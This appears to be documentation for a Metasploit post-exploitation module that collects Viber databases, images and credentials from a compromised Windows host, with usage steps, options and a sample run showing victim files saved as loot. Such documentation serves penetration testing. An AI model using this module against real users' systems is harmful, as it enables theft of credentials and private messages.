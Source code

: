 ## Module Description

This post-exploitation module gathers artifacts found on Viber related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/viber
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/viber) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Viber's parent folder found
[*] Viber's Viber.db file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\viber.db
[*] Viber Viber.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513071138_default_192.168.56.106_viberviber.db_428035.db

[*] Viber's parent folder found
[*] Viber's parent folder found
[*] Viber's *.jpg file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000486.jpg
[*] Viber 10000486.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000486.jp_920388.jpg

[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000487.jpg
[*] Viber 10000487.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000487.jp_576575.jpg


[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

